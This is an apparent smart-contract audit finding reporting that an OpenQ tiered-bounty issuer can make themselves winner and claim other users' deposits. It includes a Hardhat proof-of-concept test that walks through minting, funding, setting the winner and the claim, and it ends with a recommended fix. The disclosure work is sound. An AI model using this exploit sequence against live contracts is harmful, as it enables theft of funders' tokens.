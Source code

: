 sinh3ck

high

# sinh3ck - `permissionedClaimTieredBounty()` Allows `issuer` Of Bounty To Claim Own Bounty

sinh3ck

high

## Summary

Issuer of tiered bounty is capable of claiming total amount of bounty funds received by other users.

## Vulnerability Detail

Anyone may create new tiered bounties (competitions) with `mintBounty()`. This sets the `msg.sender` of the transaction to the `issuer` variable of the respective bounty. After waiting for the bounty to be funded by other users, the `issuer` (which may already be associated in `openQ.addressToExternalUserId`), may set himself as the tier winner for all tiers and collect all funds from the bounty.

The following PoC can be included in [test/ClaimManager.test.js](https://github.com/sherlock-audit/2023-02-openq/blob/main/test/ClaimManager.test.js):
```javascript
// ...

describe('permissionedClaimTieredBountyExploit', () => {
	it('should transfer tier to closer - TIERED FIXED', async () => {
		// issuer of mintBounty() will claim own bounty
		issuer = claimant;
		// ARRANGE
		await openQProxy.connect(issuer).mintBounty(Constants.bountyId, Constants.organization, tieredPercentageBountyInitOperation_permissioned);
		const bountyAddress = await openQProxy.bountyIdToAddress(Constants.bountyId);
		const expectedTimestamp = await setNextBlockTimestamp();
		const volume = 100;

		const bounty = await TieredFixedBountyV1.attach(bountyAddress);

		// ACT
		await mockLink.approve(bountyAddress, 10000000);

		await depositManager.fundBountyToken(bountyAddress, mockLink.address, volume, 1, Constants.funderUuid);

		// ASSUME
		const bountyMockLinkTokenBalance = (await mockLink.balanceOf(bountyAddress)).toString();
		expect(bountyMockLinkTokenBalance).to.equal('100');

		const issuerMockTokenBalance = (await mockLink.balanceOf(issuer.address)).toString();
		expect(issuerMockTokenBalance).to.equal('0');

		// ARRANGE
		// Set Permissions
		await mockKyc.setIsValid(true)
		await openQProxy.connect(oracle).associateExternalIdToAddress(Constants.mockOpenQId, claimant.address)
		await openQProxy.connect(issuer).setTierWinner(Constants.bountyId, 0, Constants.mockOpenQId)
		await openQProxy.connect(issuer).setInvoiceComplete(Constants.bountyId, setInvoiceCompleteData_tiered(0, true))
		await openQProxy.connect(issuer).setSupportingDocumentsComplete(Constants.bountyId, setSupportingDocumentsComplete_tiered(0, true))

		// ACT
		await claimManager.connect(issuer).permissionedClaimTieredBounty(bountyAddress, abiEncodedTieredCloserDataFirstPlace);

		// ASSERT
		const newBountyMockTokenBalance = (await mockLink.balanceOf(bountyAddress)).toString();
		expect(newBountyMockTokenBalance).to.equal('40');

		const newIssuerMockTokenBalance = (await mockLink.balanceOf(issuer.address)).toString();
		expect(newIssuerMockTokenBalance).to.equal('60');
	});
});

// ...
```

## Impact

A malicious `issuer` of a bounty may collect funds of other users on his own, without the need of special permissions besides being the original `issuer` of the bounty.

## Code Snippet

[ClaimManagerV1.sol](https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/ClaimManager/Implementations/ClaimManagerV1.sol#L75)

[OpenQV1.sol](https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/OpenQ/Implementations/OpenQV1.sol#L96)

## Tool used

Manual Review

## Recommendation

It is recommended to make it impossible to issuers of tiered bounties to set themselves as winners. One possible mitigation would be to require permission of the oracle if the issuer intends to set himself as the winner.